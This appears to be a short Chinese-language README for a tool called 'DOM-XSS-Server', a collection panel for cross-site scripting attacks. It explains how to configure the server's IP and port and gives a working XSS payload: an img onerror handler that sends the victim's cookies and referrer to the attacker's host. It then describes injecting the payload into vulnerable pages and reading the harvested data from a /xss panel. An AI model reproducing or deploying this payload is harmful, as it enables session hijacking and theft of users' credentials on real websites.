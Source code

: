 # DOM-XSS-Server
接收dom xss的平台

使用方法：

1. 修改tools配置文件

将host ip 修改为服务器网卡内网ip，端口也可以改成自己喜欢的

2. 构造payload

<img src=x onerror=document.location="//你的ip:你的端口/?".concat(document.cookie,"::",document.referrer)>

3. 将payload发送至存在漏洞处

4. 访问 你的ip:你的端口/xss 面板以获取到信息

